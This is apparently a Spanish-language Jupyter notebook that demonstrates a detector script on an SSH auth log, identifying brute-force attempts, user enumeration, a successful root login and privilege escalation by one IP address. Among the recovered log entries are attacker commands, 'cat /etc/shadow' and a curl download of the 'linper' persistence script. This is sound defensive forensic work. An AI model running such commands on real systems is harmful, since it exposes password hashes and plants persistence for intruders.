In [82]:
import matplotlib.pyplot as plt
import pandas as pd
import seaborn as sns


# Introduccion

Este notebook es para demostrar la funcionalidad del detector.py

In [83]:
import sys
sys.path.append('..')
from src.parser import parse_log
from src.detector import *

df = parse_log('../data/raw/auth.log') # ruta del archivo
df_brute_force = brute_force(df)
df_user_enumeration = user_enumeration(df)
df_successful_intrusion = successful_intrusion(df)
df_privilage_escalation = privilage_escalation(df)

## Brute force

Basicamente detecta atques de fuerza bruta que se hayan hecho muchos intentos de autenticacion sin exito en muy poco tiempo(en cuestion de segundos)

In [84]:
df_brute_force.head()

,service,date,host,message_type,user,UID,GID,ip_origin,port,pid,group_name,command
67,sshd,1900-03-06 06:31:31,172-31-35-28,Invalid user,admin,NaN,NaN,65.2.161.68,46380,2325,NaN,NaN
68,sshd,1900-03-06 06:31:31,172-31-35-28,Received disconnect,NaN,NaN,NaN,65.2.161.68,46380,2325,NaN,NaN
69,sshd,1900-03-06 06:31:31,172-31-35-28,NaN,admin,NaN,NaN,65.2.161.68,46380,2325,NaN,NaN
71,sshd,1900-03-06 06:31:31,172-31-35-28,NaN,NaN,NaN,NaN,65.2.161.68,NaN,620,NaN,NaN
72,sshd,1900-03-06 06:31:31,172-31-35-28,Invalid user,admin,NaN,NaN,65.2.161.68,46392,2327,NaN,NaN


In [85]:
df_brute_force.info()

<class 'pandas.DataFrame'>
Index: 214 entries, 67 to 359
Data columns (total 12 columns):
 #   Column        Non-Null Count  Dtype         
---  ------        --------------  -----         
 0   service       214 non-null    str           
 1   date          214 non-null    datetime64[us]
 2   host          214 non-null    str           
 3   message_type  128 non-null    str           
 4   user          132 non-null    str           
 5   UID           0 non-null      str           
 6   GID           0 non-null      str           
 7   ip_origin     214 non-null    str           
 8   port          165 non-null    str           
 9   pid           214 non-null    str           
 10  group_name    0 non-null      str           
 11  command       0 non-null      str           
dtypes: datetime64[us](1), str(11)
memory usage: 21.7 KB


In [86]:
df_brute_force.shape

(214, 12)

In [87]:
df_brute_force['ip_origin'].value_counts()

ip_origin
65.2.161.68    214
Name: count, dtype: int64

In [88]:
df_brute_force[df_brute_force['message_type']=='Accepted password']

,service,date,host,message_type,user,UID,GID,ip_origin,port,pid,group_name,command
280,sshd,1900-03-06 06:31:40,172-31-35-28,Accepted password,root,NaN,NaN,65.2.161.68,34782,2411,NaN,NaN
321,sshd,1900-03-06 06:32:44,172-31-35-28,Accepted password,root,NaN,NaN,65.2.161.68,53184,2491,NaN,NaN
359,sshd,1900-03-06 06:37:34,172-31-35-28,Accepted password,cyberjunkie,NaN,NaN,65.2.161.68,43260,2667,NaN,NaN


In [89]:
df_brute_force['message_type'].value_counts()

message_type
Invalid user                              34
Received disconnect                       33
Failed password for invalid user          33
Failed password                           15
 Disconnected from authenticating user     6
PAM 1 more authentication failure          4
Accepted password                          3
Name: count, dtype: int64

In [90]:
lista_mensajes = ['Invalid user','Failed password for invalid user','Failed password']
df_brute_force = df_brute_force[df_brute_force['message_type'].isin(lista_mensajes)]
df_brute_force['message_type'].value_counts()

message_type
Invalid user                        34
Failed password for invalid user    33
Failed password                     15
Name: count, dtype: int64



In [91]:
conteo_por_segundo = df_brute_force.groupby('date').size().reset_index(name='intentos') # para sacar el numero de intentos por rango
sns.lineplot(data=conteo_por_segundo, x='date', y='intentos', marker='o')
plt.title('Linea de tiempo de los intentos de inicio de sesion ')
plt.show()

In [92]:
df_brute_force['user'].value_counts()

user
server_adm     24
svc_account    22
admin          21
backup          9
root            6
Name: count, dtype: int64

hay 214 registros que ha detectado la funcion de fuerza bruta donde solo se ve una ip que se ha registrado donde ha tenido varios tipos de mensajes interactuando con el servidor donde destacan [Failed password for invalid user,Failed password,Accepted password,Invalid user] porque ha tenido varios incios de sesion fallidos y al final un 'Accepted password, por lo que el ataque tuvo exito.

En la grafica se ve como ha tenido muchos intentos en un rango de tiempo muy bajo e intento con muchos usurios como los son:[server_adm,svc_account,admin,backup, root, cyberjunkie]

## Enumeracion de usuarios

In [93]:
df_user_enumeration.head()

,service,date,host,message_type,user,UID,GID,ip_origin,port,pid,group_name,command
67,sshd,1900-03-06 06:31:31,172-31-35-28,Invalid user,admin,NaN,NaN,65.2.161.68,46380,2325,NaN,NaN
69,sshd,1900-03-06 06:31:31,172-31-35-28,NaN,admin,NaN,NaN,65.2.161.68,46380,2325,NaN,NaN
72,sshd,1900-03-06 06:31:31,172-31-35-28,Invalid user,admin,NaN,NaN,65.2.161.68,46392,2327,NaN,NaN
75,sshd,1900-03-06 06:31:31,172-31-35-28,Invalid user,admin,NaN,NaN,65.2.161.68,46444,2332,NaN,NaN
76,sshd,1900-03-06 06:31:31,172-31-35-28,Invalid user,admin,NaN,NaN,65.2.161.68,46436,2331,NaN,NaN


In [94]:
df_user_enumeration['user'].value_counts()

user
server_adm     36
svc_account    33
admin          32
backup         17
root           13
cyberjunkie     1
Name: count, dtype: int64

Text(0.5, 1.0, 'Frecuencia de usuarios enumerados')



In [95]:
plt.figure(figsize=(12, 6))
sns.countplot(data=df_user_enumeration, x='user')
plt.tight_layout()
plt.title('Frecuencia de usuarios enumerados')

como vemos la ip sospechoza realizo varios intnetos con diferentes usuarios

## Intrusion exitosa

In [96]:
df_successful_intrusion.head()

message_type,ip_origin,Accepted password,Failed password,Failed password for invalid user
0,65.2.161.68,3,15,33


In [97]:
df_melted = df_successful_intrusion.melt(id_vars='ip_origin', var_name='tipo', value_name='cantidad') # melt es para pasarlo a formato largo  y poder hacer el barplot por cada ip 
print(df_melted)

     ip_origin                              tipo  cantidad
0  65.2.161.68                 Accepted password         3
1  65.2.161.68                   Failed password        15
2  65.2.161.68  Failed password for invalid user        33


Text(0.5, 1.0, 'Intrucion exitosa')



In [98]:
plt.figure(figsize=(12, 6))
sns.barplot(data=df_melted, x='ip_origin', y='cantidad', hue='tipo')
plt.tight_layout()
plt.title('Intrucion exitosa')


como vemos tuvo 48 intentos entre 'Failed password' y 'Failed password for invalid user' y al final un par de intentos correctos esa ip


## Escalada de privilegios

In [99]:
df_privilage_escalation

,service,date,host,message_type,user,pid,group_name,command
344,usermod,1900-03-06 06:35:15,172-31-35-28,group,cyberjunkie,2628,sudo,NaN
345,usermod,1900-03-06 06:35:15,172-31-35-28,shadow group,cyberjunkie,2628,sudo,NaN
363,sudo,1900-03-06 06:37:57,172-31-35-28,NaN,cyberjunkie,NaN,NaN,cat /etc/shadow
364,sudo,1900-03-06 06:37:57,172-31-35-28,session opened for user root,cyberjunkie,NaN,NaN,NaN
365,sudo,1900-03-06 06:37:57,172-31-35-28,session closed for user root,NaN,NaN,NaN,NaN
374,sudo,1900-03-06 06:39:38,172-31-35-28,NaN,cyberjunkie,NaN,NaN,curl https://raw.githubusercontent.com/montyse...
375,sudo,1900-03-06 06:39:38,172-31-35-28,session opened for user root,cyberjunkie,NaN,NaN,NaN
376,sudo,1900-03-06 06:39:39,172-31-35-28,session closed for user root,NaN,NaN,NaN,NaN


Text(0.5, 1.0, 'Intrucion exitosa')



In [100]:
plt.figure(figsize=(12, 6))
sns.countplot(data=df_privilage_escalation, x='service')
plt.tight_layout()
plt.title('Intrucion exitosa')

In [101]:
df_privilage_escalation['command'].value_counts()

command
cat /etc/shadow                                                               1
curl https://raw.githubusercontent.com/montysecurity/linper/main/linper.sh    1
Name: count, dtype: int64

como vemos se ha modificado los permisos del usuario cyberjunkie y se agrego al grupo sudo como shadow y se ejecutaron ciertos comandos que descargaron una forma de asegurar persistencia en el sistema